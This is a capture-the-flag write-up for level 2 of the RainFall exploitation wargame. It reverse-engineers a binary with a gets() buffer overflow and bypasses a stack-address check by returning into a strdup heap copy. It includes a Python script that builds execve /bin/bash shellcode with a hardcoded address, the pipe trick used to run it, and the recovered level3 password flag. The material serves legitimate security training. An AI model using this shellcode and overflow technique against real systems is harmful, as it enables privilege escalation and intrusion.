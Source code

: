 # Level2

## Information Gathering

We are once again given a binary to exploit. This binary also has minimal security options.

We reverse-engineer it using Ghidra, which gives us the following pseudo-C code:

```c
void p(void)
{
  uint unaff_retaddr;
  char local_50[76];
  
  fflush(stdout);
  gets(local_50);
  if ((unaff_retaddr & 0xb0000000) == 0xb0000000) {
    printf("(%p)\n", unaff_retaddr);
                    /* WARNING: Subroutine does not return */
    _exit(1);
  }
  puts(local_50);
  strdup(local_50);
  return;
}
```

And the stack frame looks like this:

```
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined p()
             undefined         AL:1           <RETURN>
             undefined4        Stack[0x0]:4   local_res0                 
             undefined4        Stack[-0x10]:4 local_10                   
             undefined1        Stack[-0x50]:1 local_50                   
             undefined4        Stack[-0x68]:4 local_68                   
             undefined4        Stack[-0x6c]:4 local_6c                   
```

It looks like an easy buffer overflow, except `unaff_retaddr` is checked to see if it begins with `0xb`.

It's unclear what `unaff_retaddr` is because there’s no documentation on it. However, if we look at the assembly corresponding to these lines and the stack frame:

```assembly
        080484f2 8b 45 04        MOV        EAX,dword ptr [EBP + local_res0]
        080484f5 89 45 f4        MOV        dword ptr [EBP + local_10],EAX
        080484f8 8b 45 f4        MOV        EAX,dword ptr [EBP + local_10]
        080484fb 25 00 00        AND        EAX,0xb0000000
                 00 b0
        08048500 3d 00 00        CMP        EAX,0xb0000000
                 00 b0
```

We can see that this is just the return address.

This effectively prevents us from overwriting the return address with an address on the stack because stack addresses in this program seem to always start with `0xb`.  
But look at the end! There's a call to `strdup`, which seems useless to the program but very useful to us. If we can determine the address that `strdup` returns,  
we can overwrite the return address with that value so that it lands on a copy of our shellcode.

```text
$> ltrace ./level2
level2@RainFall:~$ ltrace ./level2
__libc_start_main(0x804853f, 1, 0xbffff7f4, 0x8048550, 0x80485c0 <unfinished ...>
fflush(0xb7fd1a20)                                                                                                                = 0
gets(0xbffff6fc, 0, 0, 0xb7e5ec73, 0x80482b5dfjgpodsgsdg
)                                                                                     = 0xbffff6fc
puts("dfjgpodsgsdg"dfjgpodsgsdg
)                                                                                                              = 13
strdup("dfjgpodsgsdg")                                                                                                            = 0x0804a008
+++ exited (status 8) +++
```

I have no clue at this point if the address will always be `0x0804a008` on every execution, but maybe we should try—because I’m too lazy to be smart.  

---

## Exploitation

If we look back at the stack frame, our buffer starts at  
`%rsp - 0x50`, and the return address is the 4 bytes right after that.

So, all we need to do is write our shellcode within the first `0x50` bytes and then write `0x0804a008` in little-endian format (we can confirm that using the `file` command on our executable).

```py
import struct

heap_addr = 0x0804a008
shellcode = b"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"
payload = shellcode
payload += b"\x90" * (0x50 - len(shellcode))
payload += struct.pack("<I", heap_addr)

with open("payload", "wb") as f:
    f.write(payload)
```

And nice, we have our malicious input as a file. Now, we just need to redirect it into the stdin of `level2`:

```text
level2@RainFall:~$ ./level2 < /tmp/payload
j
 X�Rfh-p��Rjhh/bash/bin��RQS��̀������������������������������������������
level2@RainFall:~$ id
uid=2021(level2) gid=2021(level2) groups=2021(level2),100(users)
```

WTF, nothing happened?!  

That’s because when the program receives all the input from `/tmp/payload`, it just closes stdin. So `bash` goes,  
*"What, no stdin? I have no purpose! Au revoir."*  

To fix this, we can use a pipe and an unending `cat` command to keep it open:

```text
level2@RainFall:~$ (cat /tmp/payload; cat) | ./level2
j
 X�Rfh-p��Rjhh/bash/bin��RQS��̀������������������������������������������
id
uid=2021(level2) gid=2021(level2) euid=2022(level3) egid=100(users) groups=2022(level3),100(users),2021(level2)
```

And **wouhou**, we have `level3`'s effective UID and GID, meaning we can read their files. So, we simply `cat` the `.pass` file in their home folder:

```text
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

**Easy. On to the next one.**

---

## References

- [Execve /bin/sh -0 -0 in a Pipe](https://stackoverflow.com/questions/8509045/execve-bin-sh-0-0-in-a-pipe)

